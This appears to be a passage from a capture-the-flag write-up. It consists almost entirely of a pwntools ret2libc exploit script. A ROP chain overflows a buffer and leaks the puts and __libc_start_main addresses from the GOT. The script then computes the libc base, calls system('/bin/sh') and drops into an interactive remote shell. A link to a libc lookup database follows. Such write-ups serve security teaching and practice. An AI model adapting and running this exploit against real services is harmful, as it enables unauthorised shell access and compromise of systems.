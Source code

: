 ```python
rop = ROP(elf)
rop.raw(b'A'*eip_offset)
rop.puts(elf.got['puts'])
rop.puts(elf.got['__libc_start_main'])
rop.vuln()

payload = rop.chain()

# Main has 2 messages, the "Today, we'll have a lesson in returns." and "Where would you like to return to?"
r.recvline()
r.recvline()

r.sendline(payload)

puts_leak_raw_data = r.recvline().rstrip()
print(puts_leak_raw_data)
# Concatenating two NUL bytes that `puts` probably "ate"
puts_leak = u64(puts_leak_raw_data + b'\x00\x00')
print(f"'puts' at {hex(puts_leak)}")

libc_start_main_leak_raw_data = r.recvline().rstrip()
print(libc_start_main_leak_raw_data)
libc_start_main_leak = u64(libc_start_main_leak_raw_data + b'\x00\x00')
print(f"'libc_start_main' at {hex(libc_start_main_leak)}")

# Confirmed via GDB but now have to confirm correct libc version via leaking the address of some functions
libc_base = puts_leak - libc.sym['puts']
libc.address = libc_base
print(f"Libc at {hex(libc.address)}")

# Clearing vuln's messages again since we returned to it
print(r.recvline())

# Don't forget to set the libc base address before creating the ROP object
libc_rop = ROP(libc)
binsh = next(libc.search(b'/bin/sh\x00'))
libc_rop.system(binsh)

payload = b'A'*eip_offset + libc_rop.chain()
r.sendline(payload)

print(r.clean())
r.interactive()

r.close()

```

[The libc version we got from the remote leak.](https://libc.blukat.me/?q=__libc_start_main%3Aab0%2Cputs%3A9c0)
